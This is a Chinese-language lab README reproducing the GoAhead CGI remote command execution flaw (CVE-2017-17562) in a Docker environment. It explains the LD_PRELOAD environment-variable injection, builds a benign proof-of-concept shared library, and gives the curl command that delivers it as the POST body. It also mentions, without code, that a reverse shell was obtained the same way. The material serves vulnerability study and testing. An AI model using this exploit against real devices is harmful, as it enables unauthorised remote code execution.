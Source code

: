 # GoAhead 远程命令执行漏洞（CVE-2017-17562）

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给`http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

参考链接：

 - https://www.elttam.com.au/blog/goahead/

## 漏洞环境

启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -shared -fPIC ./payload.c -o payload.so
```

将payload.so作为post body发送：

```
curl -X POST --data-binary @payload.so http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0 -i 
```

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行。编译一个反弹shell的代码，成功反弹shell：

![](2.png)